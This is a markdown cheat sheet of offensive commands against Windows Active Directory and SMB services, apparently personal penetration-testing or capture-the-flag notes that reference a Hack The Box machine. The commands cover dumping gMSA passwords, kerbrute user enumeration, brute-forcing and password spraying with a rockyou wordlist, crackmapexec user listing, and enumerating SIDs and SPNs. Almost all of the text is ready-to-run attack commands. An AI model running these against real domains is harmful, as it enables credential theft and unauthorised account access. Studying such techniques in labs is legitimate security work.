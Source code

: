 search smb vulnerability

```shell
nmap --script "safe or smb-enum-*" -p 445 <target ip>
```

Read gMSA password (```ReadGMSAPassword``` and ```AllowedToDelegate``` rights) (HTB BOX:Intelligence)

```shell
git clone https://github.com/micahvandeusen/gMSADumper.git
python3 gMSADumper.py -u <username> -p <password> -d <domain>
```

enumerate domain usernames

(Kerbrute)[https://github.com/ropnop/kerbrute/releases]

```shell
# 1 enumerate users 
kerbrute_linux_amd64 -t <threads> --dc <domain controller> -d <domain> userenum  ~/Documents/userlist.txt
# 2 valid users
kerbrute userenum -d <domain> --dc <domain controller> ~/Documents/userlist.txt | grep "USERNAME" | cut -f1 -d"@" | cut -f4 -d":" | tr -d "[:blank:]" > /tmp/users.txt
# bruteuser
./kerbrute_linux_amd64 -t <threads> --dc <domain controller> -d <domain> bruteuser ~/Documents/rockyou.txt <username>
# passwordspray
./kerbrute_linux_amd64 -t <threads> --dc <domain controller> -d <domain> passwordspray <userlist> '<password>'
# crackmapexec needs valid credential
crackmapexec smb <target ip> -u <username> -p <password> --users
```

change password (STATUS_PASSWORD_MUST_CHANGE)

```shell
smbpasswd -U <user_name> -r <target ip>
```

mount Windows shares

```shell
mount -t cifs //<target ip>/<folder> <attacker folder> -o username=<username>
```

get [SID](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getPac.py)

```shell
python3 getPac.py -targetUser <target username> <domain>/<username>[:password]
```

[Setspn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc731241(v=ws.11))

Windows command-line tool for enumerating SPNs, built in after windows server 2008

```powershell
# check all the SPN services 
setspn -Q */*
```
